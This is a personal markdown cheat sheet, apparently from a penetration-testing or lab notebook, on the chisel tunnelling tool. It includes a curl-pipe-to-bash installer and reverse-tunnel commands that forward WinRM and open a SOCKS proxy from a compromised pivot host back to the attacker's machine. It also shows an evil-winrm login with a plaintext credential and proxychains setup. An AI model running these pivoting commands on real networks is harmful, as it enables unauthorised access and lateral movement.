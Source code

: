 ```yaml
---
creation date: March 21st 2023
last modified date: March 21st 2023
aliases: []
tags: #🧰
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #🧰  

# [[chisel]]  
___

## Description:
Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server.

## Installation
[chisel](https://github.com/jpillora/chisel)

For linux:
`curl https://i.jpillora.com/chisel! | bash`

For Windows:
Go to the release page, get URL for 32bit or 64bit ( I used https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_windows_386.gz), wget, gunzip, change name to chisel.exe


## Commands

to forward winrm:
your machine
`./chisel server --reverse -p 9002

pivot machine
`./chisel client <your_machine>:9002 R:5985:172.16.22.1:5985


`evil-winrm -i 10.10.14.95 -u 'matthew' -p '147258369'

### socks server
On your machine:
`./chisel server --reverse -p 9003`

On remote machine:
`chisel32.exe client 10.10.14.95:9003 R:socks`

To use in the browser, set foxy proxy to socks5, 127.0.0.1, 1080.
To use with burp, set browser to use burp proxy, then set socks proxy in burp by going to settings, network, connections

To use with proxychains:
`sudo echo "socks4 127.0.0.1 1080" >> /etc/proxychains.conf``
(might be socks5)

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: March 21st 2023 (09:42 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>

